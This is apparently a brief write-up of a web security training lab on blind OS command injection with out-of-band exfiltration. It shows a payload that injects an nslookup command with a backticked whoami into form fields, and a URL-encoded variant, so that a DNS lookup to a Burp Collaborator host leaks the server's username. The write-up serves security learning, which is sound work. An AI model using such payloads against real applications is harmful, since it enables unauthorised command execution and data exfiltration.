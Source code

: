 --> This lab is same as Lab-4 but here we have to execute the os command in the DNS lookup which we can do with the backtick so i set up my burp collaborator server and used this payload in every field :

```bash
 & nslookup `whoami`.server.burpcollaborator.net &
#After encoding
+%26+nslookup+`whoami`.hm79ndstkro1octlc11atpw9w02qqf.burpcollaborator.net+%26
```

--> And after using it in `email` field i got the DNS lookup with the username!

![](Attachments/Pastedimage20220120125310.png)

--> And we solved the lab!

![](Attachments/Pastedimage20220120125352.png)
